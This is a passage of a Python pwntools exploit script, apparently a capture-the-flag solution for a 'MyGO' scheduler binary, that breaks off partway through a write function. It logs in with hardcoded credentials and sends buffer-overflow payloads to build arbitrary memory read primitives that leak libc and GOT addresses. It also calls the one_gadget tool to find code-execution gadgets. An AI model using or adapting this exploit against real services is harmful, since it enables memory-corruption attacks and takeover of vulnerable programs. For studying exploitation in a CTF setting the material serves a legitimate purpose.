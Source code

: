 ```python
def one_gadget(filename: str) -> list:
    return [
        int(i) for i in __import__('subprocess').check_output(
            ['one_gadget', '--raw', filename]).decode().split(' ')
    ]


if len(sys.argv) == 1:
    r = process(FILENAME)
    if args.GDB:
        gdb.attach(r, 'b *0x40147f')
        pause()
elif len(sys.argv) == 3:
    r = remote(sys.argv[1], sys.argv[2])
else:
    print("Usage: python3 {} [GDB | REMOTE_IP PORT]".format(sys.argv[0]))
    sys.exit(1)

r.sendlineafter(b"Username > ", b"MyGO!!!!!")
r.sendlineafter(b"Password > ", b"TomorinIsCute")


r.sendlineafter(b"$ > ", b"1")
r.sendlineafter(b"MyGO @ sched title > ", b"Grissia")
r.sendlineafter(b"MyGO @ sched content > ", b"is_a_good_hacker")

"""
0000000000222200 B __environ@@GLIBC_2.2.5
0000000000222200 V _environ@@GLIBC_2.2.5
0000000000222200 V environ@@GLIBC_2.2.5

0000000000403fd0 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5

0x000000000040101a : ret
"""


def read1(addr):
    offset = 0x18
    payload = b'A'*offset + p64(addr) + p64(8) + p64(8)
    r.sendlineafter(b"$ > ", b"2")
    r.sendlineafter(b"MyGO @ sched title > ", payload)
    r.sendlineafter(b"$ > ", b"4")
    r.recvline()
    return u64(r.recvuntil("\x7f")[-6:].ljust(8, b'\x00'))


def read2(addr):
    offset = 0x18
    payload = b'A'*offset + p64(addr) + p64(8) + p64(8)
    r.sendlineafter(b"$ > ", b"2")
    r.sendlineafter(b"MyGO @ sched title > ", payload)
    r.sendlineafter(b"$ > ", b"4")
    r.recvline()
    r.recvline()
    return u64(r.recvline().strip().split()[-1].ljust(8, b'\x00'))


def write1(addr, data):
    try:
        offset = 0x18
        payload = b'A'*offset + p64(addr) + p64(8) + p64(8)
        r.sendlineafter(b"$ > ", b"2")
```
